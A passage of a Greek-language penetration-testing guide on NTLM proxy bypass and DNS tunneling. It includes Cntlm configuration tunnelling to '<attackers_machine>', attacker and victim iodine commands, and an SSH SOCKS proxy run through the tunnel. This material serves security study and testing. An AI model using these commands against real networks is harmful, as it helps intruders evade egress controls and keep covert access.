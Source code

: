 ## Παράκαμψη proxy NTLM

Το προηγουμένως αναφερόμενο εργαλείο: **Rpivot**\
**OpenVPN** μπορεί επίσης να το παρακάμψει, ρυθμίζοντας αυτές τις επιλογές στο αρχείο ρύθμισης.
```bash
http-proxy <proxy_ip> 8080 <file_with_creds> ntlm
```
### Cntlm

[http://cntlm.sourceforge.net/](http://cntlm.sourceforge.net/)

Αυτή η εφαρμογή αυθεντικοποιείται έναντι ενός proxy και δεσμεύει μια θύρα τοπικά που προωθείται στην εξωτερική υπηρεσία που καθορίζετε. Στη συνέχεια, μπορείτε να χρησιμοποιήσετε το εργαλείο της επιλογής σας μέσω αυτής της θύρας.\
Για παράδειγμα, προωθήστε τη θύρα 443
```
Username Alice
Password P@ssw0rd
Domain CONTOSO.COM
Proxy 10.0.0.10:8080
Tunnel 2222:<attackers_machine>:443
```
Τώρα, αν ρυθμίσετε για παράδειγμα στο θύμα την υπηρεσία **SSH** να ακούει στην πόρτα 443. Μπορείτε να συνδεθείτε σε αυτή μέσω της θύρας του επιτιθέμενου 2222.\
Μπορείτε επίσης να χρησιμοποιήσετε ένα **meterpreter** που συνδέεται στο localhost:443 και ο επιτιθέμενος ακούει στην πόρτα 2222.

## YARP

Ένας αντίστροφος διακομιστής που δημιουργήθηκε από τη Microsoft. Μπορείτε να τον βρείτε εδώ: [https://github.com/microsoft/reverse-proxy](https://github.com/microsoft/reverse-proxy)

## DNS Tunneling

### Iodine

[https://code.kryo.se/iodine/](https://code.kryo.se/iodine/)

Απαιτείται root και στα δύο συστήματα για να δημιουργηθούν προσαρμογείς tun και να μεταφερθούν δεδομένα μεταξύ τους χρησιμοποιώντας ερωτήματα DNS.
```
attacker> iodined -f -c -P P@ssw0rd 1.1.1.1 tunneldomain.com
victim> iodine -f -P P@ssw0rd tunneldomain.com -r
#You can see the victim at 1.1.1.2
```
Ο σωλήνας θα είναι πολύ αργός. Μπορείτε να δημιουργήσετε μια συμπιεσμένη σύνδεση SSH μέσω αυτού του σωλήνα χρησιμοποιώντας:
```
ssh <user>@1.1.1.2 -C -c blowfish-cbc,arcfour -o CompressionLevel=9 -D 1080
```
### DNSCat2
